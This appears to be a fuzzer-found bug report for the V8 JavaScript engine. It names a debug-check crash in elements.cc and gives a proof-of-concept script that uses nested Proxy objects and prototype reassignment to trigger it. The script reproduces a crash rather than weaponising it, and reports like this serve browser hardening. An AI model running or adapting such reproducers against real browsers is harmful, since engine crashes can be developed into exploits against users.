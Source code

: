 Target : ASAN-D8-DBG Latest
Crash Type: Debug check failed: !context.get(context_entry).IsTheHole(isolate)
Crash State:

#
# Fatal error in ../../src/objects/elements.cc, line 3894
# Debug check failed: !context.get(context_entry).IsTheHole(isolate).
#
#
#
#FailureMessage Object: 0x7ffcb9b62a00

POC:
<b>-------------------------</b>-
function main() {
    const v2 = [];
    const v3 = {hasOwnProperty:v2};
    function v5(v6,v7,v8,v9,v10) {
        const v14 = Intl.NumberFormat;
        let v16 = v14;
        const v18 = Reflect.construct(v16,arguments);
        const v20 = Boolean.__proto__;
        const v22 = {preventExtensions:eval,get:eval,getPrototypeOf:Object,deleteProperty:Boolean,set:Boolean,getOwnPropertyDescriptor:eval,apply:v20,has:eval,ownKeys:Boolean,setPrototypeOf:eval,call:v20,isExtensible:v20,defineProperty:eval};
        const v24 = new Proxy(v5,v22);
        Boolean.__proto__ = v24;
        return 100;
    }
    const v25 = {construct:Boolean,call:Boolean,apply:v5,setPrototypeOf:v5,isExtensible:v5,getPrototypeOf:v5,ownKeys:Boolean,preventExtensions:Boolean};
    const v27 = new Proxy(v3,v25);
    v27.__proto__ = Boolean;
    const v29 = [];
    const v31 = [];
    const v33 = [];
    const v34 = {hasOwnProperty:v33};
    function v36(v37,v38,v39,v40,v41) {
        const v45 = v31.__proto__;
        const v47 = {preventExtensions:Boolean,e:Boolean,getPrototypeOf:eval,deleteProperty:Boolean,set:Boolean,getOwnPropertyDescriptor:Boolean,apply:v45,has:Boolean,ownKeys:Boolean,setPrototypeOf:Boolean,call:v45,isExtensible:v45,defineProperty:Boolean};
        const v49 = new Proxy(Boolean,v47);
        v45.__proto__ = v49;
        return 100;
    }
    const v50 = {construct:Boolean,call:Boolean,apply:v36,setPrototypeOf:v36,isExtensible:v36,getPrototypeOf:v36,ownKeys:Boolean,preventExtensions:v29};
    const v52 = new Proxy(v34,v50);
    v52.__proto__ = Boolean;
    const v55 = [];
    const v57 = Intl.NumberFormat;
    v57.__proto__ = v55;
    const v58 = v57();
}

main();
    
<b>-------------------------</b>-


*** - runtime flags - (null)
----
*** This sample was found through context aware fuzzing .
*** Fuzzer Generation - MK_0.242 .
